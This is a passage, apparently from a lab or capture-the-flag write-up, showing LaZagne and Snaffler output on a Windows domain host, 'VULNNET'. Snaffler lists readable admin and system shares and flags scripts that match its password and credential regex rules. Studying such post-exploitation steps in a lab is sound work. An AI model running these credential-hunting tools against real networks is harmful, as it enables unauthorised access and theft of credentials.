|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.147597074508667

```

## Snaffler :

```
Snaffler.exe -s
 .::::::.:::.    :::.  :::.    .-:::::'.-:::::':::    .,:::::: :::::::..
;;;`    ``;;;;,  `;;;  ;;`;;   ;;;'''' ;;;'''' ;;;    ;;;;'''' ;;;;``;;;;
'[==/[[[[, [[[[[. '[[ ,[[ '[[, [[[,,== [[[,,== [[[     [[cccc   [[[,/[[['
  '''    $ $$$ 'Y$c$$c$$$cc$$$c`$$$'`` `$$$'`` $$'     $$""   $$$$$$c
 88b    dP 888    Y88 888   888,888     888   o88oo,.__888oo,__ 888b '88bo,
  'YMmMY'  MMM     YM YMM   ''` 'MM,    'MM,  ''''YUMMM''''YUMMMMMMM   'W'
                         by l0ss and Sh3r4 - github.com/SnaffCon/Snaffler

[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:46Z [Info] Parsing args...
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:46Z [Info] Parsed args successfully.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:46Z [Info] Invoking DFS Discovery because no ComputerTargets or PathTargets were specified
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:46Z [Info] Getting DFS paths from AD.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Info] Found 0 DFS Shares in 0 namespaces.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Info] Invoking full domain computer discovery.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Info] Getting computers from AD.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Info] Got 1 computers from AD.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Info] Starting to look for readable shares...
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Info] Created all sharefinder tasks.
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Black}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$>()
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Green}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$>(R) Remote Admin
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Black}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$>()
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Green}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$>(R) Default share
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Green}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\Enterprise-Share>(R)
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Green}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\NETLOGON>(R) Logon server share
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:27:47Z [Share] {Green}<\\VULNNET-BC3TCK1SHNQ.vulnnet.local\SYSVOL>(R) Logon server share
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:08Z [File] {Yellow}<KeepDeployImageByExtension|R|^\.wim$|28.9MB|2021-02-22 21:03:12Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\Containers\serviced\WindowsDefenderApplicationGuard.wim) .wim
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|13.5kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\scheduled\Maintenance\CL_Utility.ps1) \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ return\ Environment\.GetFolderPath\(Environment\.SpecialFolder\.DesktopDirectory\);\r\n\ \ \ \ \ \ \ \ }\r\n\ \ \ \ }\r\n"@\r\n\r\n\ \ \ \ \$type\ =\ Add-Type\ -MemberDefinition\ \$methodDefinition\ -Name\ "DesktopPath"\ -PassThru\r\n\r\n\ \ \ \ return\ \$type::GetDesktopPath\r\n}\r\n\r\n\#\ Function\ to\ get\ startup\ path\r\nfunction\ Get-StartupPath\(\)\r\n\{\r\n\$methodDefinition\ =\ @"\r\n\ \ \ \ public\ static\ string\ GetStartupPath\r\n\ \ \ \ \{\r\n\ \ \ \ \ \ \ \ get\r
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|218.7kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\Audio\CL_Utility.ps1) ce\ =\ \(Get-WmiObject\ -query\ "select\ \*\ from\ win32_baseService\ where\ Name='Audiosrv'"\)\r\n\tif\(\$audioService\.State\ -ne\ "Running"\)\r\n\t\{\r\n\t\tSet-Service\ Audiosrv\ -StartupType\ Automatic\r\n\t\tStart-Service\ Audiosrv\ -PassThru\ -ErrorAction\ SilentlyContinue\r\n\t}\r\n}\r\n\r\nFunction\ Stop-AudioService\(\)\r\n\{\r\n\t<\#\r\n\ \ \ \ \ \ \ \ \.DESCRIPTION\r\n\ \ \ \ \ \ \ \ \ \ \ Function\ to\ stop\ Audio\ service\ forcefully\ \r\n\ \ \ \ \ \ \ \ \.PARAMETER\ \r\n\t\t\tNone\r\n\ \ \ \
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|11.4kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\Audio\MF_AudioDiagnostic.ps1) e\ static\ extern\ int\ GetSystemMetrics\(int\ Index\);\r\n\r\n\t\tpublic\ static\ bool\ Remote\(\)\ \{\r\n\t\t\treturn\ \(0\ !=\ GetSystemMetrics\(SM_REMOTESESSION\)\);\r\n\t\t}\r\n\t}\r\n}\r\n"@\r\n\t\$type\ =\ Add-Type\ -TypeDefinition\ \$sourceCode\ -PassThru\r\n\r\n\treturn\ \$type::Remote\(\)\r\n}\r\n\r\nfunction\ ispostbackOnWin\(\$packName\)\r\n\{\r\n<\#\r\n\tDESCRIPTION\r\n\t\ \ ispostbackOnWin\ check\ whether\ package\ is\ postback\.\r\n\r\n\tARGUMENTS:\r\n\t\ \ packName\ :\ String\ value\ c
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|6.6kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\Audio\RS_NotDefault.ps1) ero\)\)\r\n\ \ \ \ \ \ \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ return\ false;\r\n\ \ \ \ \ \ \ \ \ \ \ \ }\r\n\ \ \ \ \ \ \ \ \ \ \ \ return\ true;\r\n\ \ \ \ \ \ \ \ }\r\n\ \ \ \ }\r\n"@\ \r\n\r\n\ \ \ \ \$ProcessHandle\ =\ \(Get-Process\ -id\ \$pid\)\.Handle\r\n\t\$type\ =\ Add-Type\ \$definition\ -PassThru\r\n\ttry\r\n\t\{\r\n\t\t\#\ Enable\ SeTakeOwnershipPrivilege\r\n\t\t\$type\[0]::EnablePrivilege\(\$processHandle,\ 'SeTakeOwnershipPrivilege'\)\r\n\r\n\t\t\$key\ =\ \[Microsoft\.Win32\.Registry]::LocalMachine\.OpenSubKey\(\$regP
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|16.5kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\PCW\TS_ProgramCompatibilityWizard.ps1) \ \ \ \ \ \ \ return\ String\.Empty;\r\n\ \ \ \ }\r\n\r\n\ \ \ \ public\ static\ String\ EscapePath\(String\ Path\)\r\n\ \ \ \ \{\r\n\ \ \ \ \ \ \ \ return\ Path\.Replace\("\$",\ "`\$"\);\r\n\ \ \ \ }\r\n}\r\n"@\r\n\r\n\$type\ =\ Add-Type\ -TypeDefinition\ \$typeDefinition\ -PassThru\ -IgnoreWarnings\r\n\$type3\ =\ Add-Type\ -TypeDefinition\ \$typeDefinition3\ -PassThru\ \ -IgnoreWarnings\r\n\r\n\#\ Function\ to\ convert\ to\ WQL\ path\r\nfunction\ ConvertTo-WQLPath\(\[string]\$wqlPath\ =\ \$\(throw\ "N
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|49.1kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\PCW\RS_ProgramCompatibilityWizard.ps1) ript\ will\ replace\ this\ keyword\ with\ build\.arch\.\r\n\ \ \ \ return\ \("amd64"\ -eq\ "arm64"\);\r\n}\r\n\r\n\#\ This\ block\ of\ code\ sets\ up\ the\ manual\ troubleshooting\ portion\.\r\n\#\r\n\r\nAdd-Type\ -TypeDefinition\ \$typeDefinition\ -PassThru\ -IgnoreWarnings\r\n\r\n\$targetPath\ =\ \[WerUtil]::EscapePath\(\$targetPath\)\r\n\r\nif\(\$targetPath\ -eq\ \$null\)\r\n\{\r\n\ \ \ \ throw\ \$CompatibilityStrings\.Throw_INVALID_PATH\r\n}\r\n\r\n\#\ Initialize\r\n\r\nset-variable\ ve
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:16Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|94.6kB|2018-09-15 07:12:54Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\speech\CL_Utilities.ps1) c\ extern\ int\ GetSystemMetrics\(int\ Index\);\r\n\r\n\t\t\tpublic\ static\ bool\ IsRemote\(\)\ \{\r\n\t\t\t\treturn\ \(0\ !=\ GetSystemMetrics\(SM_REMOTESESSION\)\);\r\n\t\t\t}\r\n\t\t}\r\n\t}\r\n"@\r\n\t\$type\ =\ Add-Type\ -TypeDefinition\ \$sourceCode\ -PassThru\r\n\r\n\treturn\ \$type::IsRemote\(\)\r\n}\r\n\r\nfunction\ Get-AudioCapturingDevices\r\n\{\r\n\t<\#\r\n\t\tDESCRIPTION:\r\n\t\tLists\ all\ the\ recording\ devices\ available\ on\ the\ localhost\ with\ their\ details\.\r\n\r\n\t\tARGUMENT
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:17Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|20.1kB|2018-09-15 07:12:40Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\Search\CL_Utility.ps1) \r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ throw\ new\ System\.ComponentModel\.Win32Exception\(error\);\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ }\r\n\ \ \ \ \ \ \ \ \ \ \ \ }\r\n\ \ \ \ \ \ \ \ }\r\n\ \ \ \ }\r\n"@\r\n\r\n\ \ \ \ \(Add-Type\ -TypeDefinition\ \$typeDefinition\ -PassThru\)\[0]::SetRestorePrivilege\(\)\r\n}\r\n\r\n\[uint32]\$GENERIC_ALL\ =\ 0x10000000L\r\n\[uint32]\$GENERIC_READ\ =\ 0x80000000L\r\n\[uint32]\$GENERIC_WRITE\ =\ 0x40000000L\r\n\[uint32]\$GENERIC_EXECUTE\ =\ 0x20000000L\r\n\r\n\#\ F
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:17Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|28.9kB|2018-09-15 07:12:55Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\Printer\CL_Utility.ps1) PWStr\)]\r\n\ \ \ \ \ \ \ \ public\ string\ pConfigFile;\r\n\ \ \ \ }\r\n"@\r\n\r\n\ \ \ \ \$winSpoolType\ =\ Add-Type\ -MemberDefinition\ \$winSpoolDefinition\ -Name\ "winSpoolCL"\ -UsingNamespace\ "System\.Reflection","System\.Diagnostics"\ -PassThru\r\n\ \ \ \ return\ \$winSpoolType\r\n}\r\n\r\n\#\r\n\#\ Get\ the\ printer\ status\r\n\#\r\nfunction\ GetPrinterStatus\(\[string]\$printerName\)\r\n\{\r\n\ \ \ \ \#\r\n\ \ \ \ \#\ the\ function\ return\ value\r\n\ \ \ \ \#\r\n\ \ \ \ \[int]\$printStatus\ =\ 0\r
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:17Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|2kB|2018-09-15 07:12:55Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\ADMIN$\diagnostics\system\Printer\RS_SpoolerCrashing.ps1) \(UnmanagedType\.Bool\)]\ bool\ bMachine\);\r\n"@\r\n\r\n\$RefreshPolicyType\ =\ Add-Type\ -MemberDefinition\ \$RefreshPolicyDefinition\ -Name\ "RefreshPolicyType"\ -UsingNamespace\ "System\.Reflection","System\.Diagnostics"\ -PassThru\r\n\r\n\[bool]\$return\ =\ \$RefreshPolicyType::RefreshPolicy\(\$true\)\r\n\[int]\$errorCode\ =\ \[System\.Runtime\.InteropServices\.Marshal]::GetLastWin32Error\(\)\r\nif\(-not\ \$return\)\r\n\{\r\n\ \ \ \ WriteFileAPIExceptionR
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:18Z [File] {Yellow}<KeepDeployImageByExtension|R|^\.wim$|28.9MB|2021-02-22 21:03:12Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Windows\Containers\serviced\WindowsDefenderApplicationGuard.wim) .wim
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:20Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|4.9kB|2018-09-15 09:08:43Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Microsoft\AppV\Setup\OfficeIntegrator.ps1) ow\ have\ all\ the\ data\ to\ execute\ integrator\.exe\ to\ migrate\ the\ license\.\ Execute\ the\ program\ now\.\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \$integratorProcess\ =\ Start-Process\ \$integratorFileFullName\ \$integratorArguments\ -Passthru\ -Wait\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ if\ \(\$integratorProcess\.ExitCode\ -eq\ 0\)\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \$migrationSuccessful\ =\ \$true\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ }\r\n\ \ \ \ \ \
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:20Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2018-09-15 07:13:55Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:21Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|20.9kB|2021-02-02 08:27:17Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Scripts\InitializeInstance.ps1) e\.\n\ \ \ \ \#\ Console\ understands\ the\ admin\ password\ and\ allows\ users\ to\ decrypt\ it\ with\ private\ key\.\n\ \ \ \ if\ \(\$creds\.Username\ -and\ \$creds\.Password\)\ \{\n\ \ \ \ \ \ \ \ Send-AdminCredentials\ -Username\ \$creds\.Username\ -Password\ \$creds\.Password\n\ \ \ \ }\n\n\ \ \ \ try\ \{\n\ \ \ \ \ \ \ \ \#\ Set\ AmazonSSMAgent\ StartupType\ to\ be\ back\ to\ Automatic\n\ \ \ \ \ \ \ \ Set-Service\ \$amazonSSMagent\ -StartupType\ Automatic\ -ErrorAction\ Stop\n\ \ \ \ }\n\ \ \ \ catc
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:21Z [File] {Green}<KeepNameContainsGreen|R|passw|11kB|2021-02-02 08:27:19Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Randomize-LocalAdminPassword.ps1) Randomize-LocalAdminPassword.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:21Z [File] {Red}<KeepCmdCredentials|R|net user |11kB|2021-02-02 08:27:19Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Randomize-LocalAdminPassword.ps1) e\ \(Join-Path\ \$modulePath\ -ChildPath\ "Scripts\\Confirm-Password\.ps1"\)\r\n\r\n\$localAdminName\ =\ \$args\[0]\r\n\r\n\.\ "\$setPasswordScriptPath"\r\n\.\ "\$confirmPasswordScriptPath"\r\n\r\n\$newPassword\ =\ New-RandomPassword\r\n\r\nnet\ user\ \$localAdminName\ \$newPassword\ /ACTIVE:YES\ /LOGONPASSWORDCHG:NO\ /EXPIRES:NEVER\ /PASSWORDREQ:NO\r\n\r\n\r\n\#\ SIG\ \#\ Begin\ signature\ block\r\n\#\ MIIcvAYJKoZIhvcNAQcCoIIcrTCCHKkCAQExDzANBglghkgBZQMEAgEFADB5
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:21Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|4.9kB|2018-09-15 09:08:43Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Microsoft\AppV\Setup\OfficeIntegrator.ps1) ow\ have\ all\ the\ data\ to\ execute\ integrator\.exe\ to\ migrate\ the\ license\.\ Execute\ the\ program\ now\.\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \$integratorProcess\ =\ Start-Process\ \$integratorFileFullName\ \$integratorArguments\ -Passthru\ -Wait\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ if\ \(\$integratorProcess\.ExitCode\ -eq\ 0\)\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \$migrationSuccessful\ =\ \$true\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ }\r\n\ \ \ \ \ \
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2018-09-15 07:13:55Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Green}<KeepNameContainsGreen|R|passw|11.9kB|2021-02-02 08:27:10Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Confirm-Password.ps1) Confirm-Password.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|22.4kB|2021-02-02 08:27:11Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Install-EgpuManager.ps1) \ \ \ \ \$signatureValid\ =\ Test-CertificateIsAws\ \$file\n\ \ \ \ \n\ \ \ \ \ \ \ \ if\ \(\$signatureValid\)\n\ \ \ \ \ \ \ \ \{\n\ \ \ \ \ \ \ \ \ \ \ \ Start-Process\ -FilePath\ "msiexec\.exe"\ -ArgumentList\ "/i\ `"\$file`"\ /qn\ /log\ `"\$logfile`""\ -Wait\ -Passthru\ \|\ out-null\n\ \ \ \ \ \ \ \ }\n\ \ \ \ \ \ \ \ else\n\ \ \ \ \ \ \ \ \{\n\ \ \ \ \ \ \ \ \ \ \ \ Write-Log\ "Signature\ is\ not\ valid"\n\ \ \ \ \ \ \ \ }\n\ \ \ \ \n\ \ \ \ \ \ \ \ \$installedVer\ =\ Get-EgpuSoftwareVersion\ "EC2ElasticGPUs_Manager"\n\ \ \ \ \n\ \ \ \ \
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Green}<KeepNameContainsGreen|R|passw|12.4kB|2021-02-02 08:27:12Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\New-RandomPassword.ps1) New-RandomPassword.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|20.7kB|2021-02-02 08:27:11Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Invoke-Userdata.ps1) \$filePath`"\ -Wait\ -NoNewWindow\ -RedirectStandardOutput\ \$outputFile\ -RedirectStandardError\ \$errorFile\n\ \ \ \ \ \ \ \ \ \ \ \ }\n\ \ \ \ \ \ \ \ \ \ \ \ else\ \n\ \ \ \ \ \ \ \ \ \ \ \ \{\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ Invoke-CmdAsAdmin\ -Username\ \$Username\ -Password\ \$Password\ -Command\ "\$script:cmdPath\ /C\ `"`"\$filePath`"\ 1>\ `"\$outputFile`"\ 2>\ `"\$errorFile`"`""\n\ \ \ \ \ \ \ \ \ \ \ \ }\n\t\t\t\t\n\ \ \ \ \ \ \ \ \ \ \ \ \$output\ =\ Get-Content\ \$errorFile\ -Raw\n\ \ \ \ \ \ \ \ \ \ \ \ if\ \(\$output\)\n
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|12.4kB|2021-02-02 08:27:12Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\New-RandomPassword.ps1) \r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \)\r\n\r\n\ \ \ \ \ \ \ \ \#\ Passwords\ must\ contain\ characters\ from\ three\ of\ the\ four\ categories\ and\ longer\ than\ 32\r\n\ \ \ \ }\ while\ \(-not\ \(Confirm-Password\ -Password\ \$password\)\ -or\ \$password\.Length\ -lt\ 32\)\ \r\n\ \ \ \ \r\n\ \ \ \ return\ \$password\.Substring\(0,\ 32\)\r\n}\r\n\r\n\#\ SIG\ \#\ Begin\ signature\ block\r\n\#\ MIIcvAYJKoZIhvcNAQcCoIIcrTCCHKkCAQExDzANBglghkgBZQMEAgEFADB5Bgor
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Green}<KeepNameContainsGreen|R|credential|13.2kB|2021-02-02 08:27:13Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Send-AdminCredentials.ps1) Send-AdminCredentials.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepPassOrKeyInCode|R|passw?o?r?d?>\s*[^\s<]+\s*<|13.2kB|2021-02-02 08:27:13Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Send-AdminCredentials.ps1) \ important\ step\ to\ inform\ console\ about\ the\ password\ reset\.\ \r\n\ \ \ \ \ \ \ \ \#\ The\ format\ MUST\ NOT\ be\ changed!\r\n\ \ \ \ \ \ \ \ Write-Log\ \("Username:\ \{0}"\ -f\ \$Username\)\ -LogToConsole\r\n\ \ \ \ \ \ \ \ Write-Log\ \("Password:\ <Password>\{0}\{1}\{2}</Password>"\ -f\ \[System\.Environment]::NewLine,\ \$encryptedPassword,\ \[System\.Environment]::NewLine\)\ -LogToConsole\ \ \ \ \r\n\ \ \ \ }\r\n\ \ \ \ catch\r\n\ \ \ \ \{\r\n\ \ \ \ \ \ \ \ Write-Log\ \("Unable\ to\ send\ the\ p
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepCmdCredentials|R|net user |13.4kB|2021-02-02 08:27:15Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Set-AdminAccount.ps1) sName\ Win32_UserAccount\ -Filter\ "LocalAccount\ =\ 'True'"\ \|\ Where-Object\ \{\$_\.SID\ -like\ 'S-1-5-21-\*'\ -and\ \$_\.SID\ -like\ '\*-500'}\r\n\r\n\ \ \ \ \ \ \ \ \#\ Set\ the\ admin\ password\ and\ enable\ the\ admin\ account\.\r\n\ \ \ \ \ \ \ \ net\ user\ \$user\.Name\ \$password\ /ACTIVE:YES\ /LOGONPASSWORDCHG:NO\ /EXPIRES:NEVER\ /PASSWORDREQ:YES\r\n\r\n\ \ \ \ \ \ \ \ \#\ Set\ credentials\ for\ return\ value\r\n\ \ \ \ \ \ \ \ \$creds\.Username\ =\ \$user\.Name\r\n\ \ \ \ \ \ \ \ \$creds\.Passw
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|13.4kB|2021-02-02 08:27:15Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\ProgramData\Amazon\EC2-Windows\Launch\Module\Scripts\Set-AdminAccount.ps1) inPassword\ -Delete\r\n\r\n\ \ \ \ \ \ \ \ \ \ \ \ \#\ If\ specifed\ password\ is\ invalid\ or\ doesn't\ meet\ the\ windows\ password\ policy\ requirement,\ set\ it\ to\ empty\.\r\n\ \ \ \ \ \ \ \ \ \ \ \ if\ \(-not\ \$password\ -or\ -not\ \(Confirm-Password\ -Password\ \$password\)\)\r\n\ \ \ \ \ \ \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ Write-Log\ "The\ password\ specified\ in\ config\ is\ empty\ or\ doesn't\ meet\ the\ windows\ requirement"\ \ \r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \$password\ =\ ""\r\n\ \ \ \ \ \ \ \ \ \ \ \ }\r\n\
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|20.9kB|2021-02-02 08:27:17Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Scripts\InitializeInstance.ps1) e\.\n\ \ \ \ \#\ Console\ understands\ the\ admin\ password\ and\ allows\ users\ to\ decrypt\ it\ with\ private\ key\.\n\ \ \ \ if\ \(\$creds\.Username\ -and\ \$creds\.Password\)\ \{\n\ \ \ \ \ \ \ \ Send-AdminCredentials\ -Username\ \$creds\.Username\ -Password\ \$creds\.Password\n\ \ \ \ }\n\n\ \ \ \ try\ \{\n\ \ \ \ \ \ \ \ \#\ Set\ AmazonSSMAgent\ StartupType\ to\ be\ back\ to\ Automatic\n\ \ \ \ \ \ \ \ Set-Service\ \$amazonSSMagent\ -StartupType\ Automatic\ -ErrorAction\ Stop\n\ \ \ \ }\n\ \ \ \ catc
